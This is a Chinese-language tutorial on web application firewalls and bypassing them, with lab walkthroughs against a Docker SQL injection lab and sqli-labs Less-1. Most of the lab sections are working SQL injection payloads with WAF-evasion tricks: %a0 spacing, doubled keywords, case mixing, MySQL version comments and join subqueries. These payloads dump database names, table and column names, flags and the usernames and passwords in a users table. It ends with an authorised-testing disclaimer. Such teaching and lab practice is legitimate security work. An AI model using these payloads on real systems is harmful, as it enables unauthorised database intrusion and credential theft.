## 什么是 WAF

WAF（Web Application Firewall，Web 应用防火墙）与传统的网络防火墙不同，它针对的是应用层，通过执行一系列针对 HTTP/HTTPS 的安全策略，为 Web 应用提供保护。

WAF 可以增大攻击难度和攻击成本，但并不是 100% 安全的。

## WAF 分类

- **软件型 WAF**：以软件形式安装在受保护的服务器上，可以接触服务器上的文件，直接检测是否存在不安全的文件或操作，例如安全狗。
- **硬件型 WAF**：以硬件形式部署在链路中，支持串联和旁路两种方式。串联时可以拦截恶意流量，旁路监听时只记录攻击而不会拦截，例如绿盟 WAF。
- **云 WAF**：一般以反向代理的形式工作，通过配置 DNS 记录或 CNAME 记录，让网站请求先经过 WAF，相当于带防护功能的 CDN，例如百度加速乐、安全宝。
- **网站内置 WAF**：把规则直接写在代码中，请求进入业务逻辑前先做匹配和过滤，自由度相对较高。

## WAF 工作流程

1. 先做身份认证，匹配白名单；如果请求命中白名单，直接转发给服务器。
2. 不在白名单中的请求进入数据包解析阶段。
3. 解析完成后进入规则系统匹配，没有命中规则的请求会被放行。
4. 命中规则的请求会被拦截，并返回类似 "检测到 URL 输入恶意参数" 的提示。



## 为什么要绕过 WAF

提交正常的 payload 时，WAF 会识别并阻止请求到达 Web 容器。但提交经过特殊构造的 payload 时，部分 WAF 可能无法识别，请求就能正常到达后端。

## 为什么 WAF 可以被绕过

1. 安全与性能存在冲突；
2. 买了 WAF 但不会配置，全部使用默认策略；
3. WAF 无法 100% 覆盖语言、中间件和数据库的特性；
4. WAF 本身也可能存在漏洞。

## 常见的绕过手法

1. **大小写混合**：只针对小写或大写关键字匹配的规则，可以通过改变大小写绕过。原因通常是正则不完善，或者没有做大小写转换。
2. **替换关键字**：WAF 主要检测特殊关键词，可以用等价写法替换。

   ```text
   and / or  ->  && / ||
   =         ->  < / >
   空格      ->  %20 %09 %0a %0b %0c %0d %a0 /**/
   ```

   

3. **使用编码**：如 URL 编码、Unicode 编码、十六进制编码等。
4. **特殊符号**：利用特殊字符拆分关键字。
5. **使用注释**：在关键字中间插入注释，干扰 WAF 的正则匹配。

   

6. **参数污染**：提交同名参数，让 WAF 和后面业务逻辑取到不同的值。

   

7. **缓冲区溢出**：提交超长内容，导致 WAF 处理异常。
8. **性能因素**：利用 WAF 在性能受限时降低检测强度。
9. **整合绕过**：把多种手法组合使用。

   

## 实验一：绕过 SQL 注入 WAF

实验环境：`dockerproxy.cn/etimeci/bypasswafsqliexp`



### 1. 过滤注释符 #、--+、--空格

注释符被过滤时，可以用 `and '1'='1` 闭合掉后面的语句，让原 SQL 保持语法正确。

```text
?id=0' union select 1,database(),3 and '1'='1
```


报错注入同理：

```text
?id=0' and extractvalue(1,concat(0x7e,(select database()))) and '1'='1
```


判断数据库名长度：

```text
?id=1' and length(database())=4 and '1'='1
```


时间盲注：

```text
?id=1' and sleep(5) and '1'='1
```


查询表名：

```text
?id=0' union select 1,group_concat(table_name),database()
from information_schema.tables
where table_schema=database() and '1'='1
```


查询字段名：

```text
?id=0' union select 1,group_concat(column_name),database()
from information_schema.columns
where table_schema=database() and table_name='users' and '1'='1
```


读取 flag：

```text
?id=0' union select 1,(select flag from flag),3 and '1'='1
```


### 2. 过滤 and / or

把 `and` 替换成 `&&`（URL 编码为 `%26%26`），把 `or` 替换成 `||`（URL 编码为 `%7C%7C`）。

```text
?id=0' union select 1,database(),3 %26%26 '1'='1
```


```text
?id=0' union select 1,database(),3 || '1'='1
```


```text
?id=0' union select 1,user(),3 %7C%7C '1'='1
```


读取 flag：

```text
?id=0' union select 1,(select flag from flag),3 || '1'='1
```


### 3. 过滤 and、or、空格、注释

用 `%a0` 代替空格，同时对关键字双写：`or` 写成 `oorr`，`and` 写成 `aandnd`。WAF 删除一次关键字后，剩下的部分又会拼成完整关键字。

```text
?id=1'%a0union%a0select%a01,database(),3%a0anandd%a0'1'='1
```


```text
?id=1'%a0aandnd%a0sleep(5)%a0anandd%a0'1'='1
```



读取 flag：

```text
?id=0'%a0union%a0select%a01,(select%a0flag%a0from%a0flag),3%a0anandd%a0'1'='1
```


### 4. 过滤 union、select、#、--、空格、/*

通过大小写混合绕过关键字匹配，例如 `uNion`、`selEct`、`seLect`。

```text
?id=0'%a0uNion%a0selEct%a01,user(),3%a0and%a0'1'='1
```


```text
?id=0'%a0and%a0extractvalue(1,concat(0x7e,(select%a0database())))%a0and%a0'1'='1
```


报错注入读取 flag 时，`extractvalue()` 的报错内容有 32 位长度限制，需要配合 `substr()` 分段读取。

```text
?id=0'%a0and%a0extractvalue(1,concat(0x7e,(seLect%a0flag%a0from%a0flag)))%a0and%a0'1'='1
```


```text
?id=0'%a0and%a0extractvalue(1,concat(0x7e,(seLect%a0substr((seLect%a0flag%a0from%a0flag),32,31))))%a0and%a0'1'='1
```

注意 `extractvalue()`、`concat()` 拼接字符串和 `substr()` 截取字符串的语法格式。


用联合查询读取 flag：

```text
?id=0'%a0uNion%a0selEct%a01,(select%a0flag%a0from%a0flag),3%a0and%a0'1'='1
```



上面这条没有回显，对比后发现 `select` 没有大写，被规则拦截了。把 `select` 改成 `seLect` 后即可：

```text
?id=0'%a0uNion%a0seLect%a01,(seLect%a0flag%a0from%a0flag),3%a0and%a0'1'='1
```


### 5. 检测 and、or、空格、=、逗号

用 `like` 做模糊匹配，用 `%26` 代替 `&`，用 `join` 构造子查询，避免出现被检测的符号。

```text
?id=0'%a0union%a0select%a01,user(),3%a0%26%26%a0'1'%a0like%a0'1
```


```text
?id=0'%a0union%a0select%a0*%a0from%a0(select%a01)a%a0join%a0(select%a0user())b%a0%23
```


```text
?id=0'%a0union%a0select%a0*%a0from%a0(select%a01)a%a0join%a0(select%a0(select%a0flag%a0from%a0flag))b%a0%23
```


### 6. 过滤 union、空格

WAF 规则为：`union`、空格、`'`、`"`、`and`、`or`、`insert`、`#`、`--`、`~`、`%`、`char`、`exec`、`execute`、`create`、`drop`、`grant`、`group_concat`、`chr`、`mid`、`substr`、`master`、`truncate`、`declare`。

此时可以用 `if()` 做布尔判断，配合 `left()` 截取字符、`sleep()` 做时间盲注：

```text
?id=1%26%26if(left(database(),1)='t',sleep(5),0)
```




## 实验二：sqli-labs Less-1 绕过

实验环境：`http://192.168.100.226/sqli-labs/Less-1/?id=0`


### 1. 判断注入点

输入 `?id=0%27%22\`，页面报错，说明存在注入。

```text
http://192.168.100.226/sqli-labs/Less-1/?id=0%27%22%5C
```


### 2. 判断列数

```text
?id=0%27%20order%20by%204--+
```

输入 `4` 时页面报错，说明一共有 3 列。其中 `%27` 是单引号，`%20` 是空格。


### 3. 定位拦截规则

```text
?id=1%27%20union%20select%201,2,3--+
```

请求被拦截。为了确认是哪个关键字触发了规则，逐个拆分测试。



单独输入 `union` 时没有被拦截：

```text
?id=1%27%20union
```


输入 `union select` 时被拦截，因此判断拦截的是 `union select` 这个组合。



### 4. 使用版本注释绕过

先尝试 MySQL 的版本注释 `/*!select*/`：

```text
?id=-1%27%20union/*!select*/%201,2,3%20--+
```

没有成功。



在注释中加入版本号 `/*!10000select*/` 仍然不行：

```text
?id=-1%27%20union/*!10000select*/%201,2,3%20--+
```


换一种写法，把 `select` 放在注释之后，并调整版本号：

```text
?id=-1%27%20union/*!99999*/select%201,2,3%20--+
```

请求没有被拦截，页面正常回显显示位。


### 5. 获取库名和用户名

直接使用 `database()` 会再次被拦截：

```text
?id=-1%27%20union/*!99999*/select%201,database(),3%20--+
```


把函数名拆开，在 `database` 和 `()` 之间插入注释：

```text
?id=-1%27%20union/*!99999*/select%201,database/*!99999*/(),3%20--+
```

成功绕过并得到库名。


同样的方法获取当前用户：

```text
?id=-1%27%20union/*!99999*/select%201,user/*!99999*/(),3%20--+
```


### 6. 获取表名和数据

查询表名时再次被拦截，怀疑是 `from` 被规则匹配。使用 `/*!00000%23%0aselect*/` 和 `/*!%23/*%0afrom*/` 这类注释拆分语句：

```text
?id=-1%27%20%20union%20%20%20/*!00000%23%0aselect*/%20%201,2,%20group_concat(table_name)%20%20%20/*!%23/*%0afrom*/%20information_schema.tables%20where%20table_schema=%27security%27%20--+
```


获取字段名：

```text
?id=-1%27%20%20union%20%20%20/*!00000%23%0aselect*/%20%201,2,%20group_concat(column_name)%20%20%20/*!%23/*%0afrom*/%20information_schema.columns%20where%20table_name=%27users%27%20--+
```



获取 `users` 表中的全部数据：

```text
?id=-1%27%20%20union%20%20%20/*!00000%23%0aselect*/%20%201,2,group_concat(concat_ws(0x7e,%20username,%20password))%20%20/*!%23/*%0afrom*/%20security.users%20--+
```



## 总结

绕过 WAF 的核心是找到 "WAF 的解析结果" 和 "后端数据库的解析结果" 之间的差异：大小写、编码、注释、等价符号、参数污染都可以制造这种差异。实际测试时要先定位具体拦截了哪个关键字，再有针对性地构造 payload，而不是盲目堆砌绕过语句。

::: warning 声明
本文仅用于授权的安全测试与教学环境，请勿对未授权目标进行测试。
:::
